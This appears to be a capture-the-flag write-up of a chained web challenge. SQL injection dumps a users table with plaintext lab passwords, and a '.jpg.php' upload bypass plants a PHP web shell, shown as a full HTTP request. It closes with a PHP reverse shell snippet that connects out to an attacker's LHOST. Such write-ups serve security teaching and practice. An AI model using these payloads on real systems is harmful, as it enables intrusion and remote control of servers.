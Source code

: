 ### Chained Web Challenges (SQLi, RCE)

The Tenant and Management login pages were both vulnerable to SQL injection.

Using SQLMap, we could dump the users table in the database.

```
+-----+----------------+---------+------------+----------------+
| id  | name           | role    | password   | username       |
+-----+----------------+---------+------------+----------------+
| 100 | theadmin       | admin   | madeira101 | theadmin       |
| 200 | ahhong         | manager | manager101 | MANAGER        |
| 300 | HTX{Admin_101} | vendor  | vendor101  | HTX{Admin_101} |
+-----+----------------+---------+------------+----------------+
```

Taking a closer look at the users, we could see that each one has a different role. Logging in as different users allows us to perform various actions. As the vendor user, we have the ability to add to the food listing.

This allows us to upload an image, and the validation for this is flawed. It seemed to be checking for the existence of the `.jpg` extension, but using `.jpg.php` passes this check and allows us to upload a PHP webshell that we can access at `http://10.8.201.87/HTXIC/vendor/images/`.

```http
POST /HTXIC/vendor/doaddFoods.php HTTP/1.1
Host: 10.8.201.87
Content-Length: 504
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTeHcGQrvcC6GYyC2
Cookie: PHPSESSID=6co2q20vqh580a4uae4gpq3grl
Connection: close

------WebKitFormBoundaryTeHcGQrvcC6GYyC2
Content-Disposition: form-data; name="name"


------WebKitFormBoundaryTeHcGQrvcC6GYyC2
Content-Disposition: form-data; name="price"


------WebKitFormBoundaryTeHcGQrvcC6GYyC2
Content-Disposition: form-data; name="description"


------WebKitFormBoundaryTeHcGQrvcC6GYyC2
Content-Disposition: form-data; name="image"; filename="pwned.jpg.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryTeHcGQrvcC6GYyC2--
```

Using a PHP reverse shell payload, we were able to get a bash shell into the system.

```php
$sock=fsockopen("LHOST", LPORT);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
```
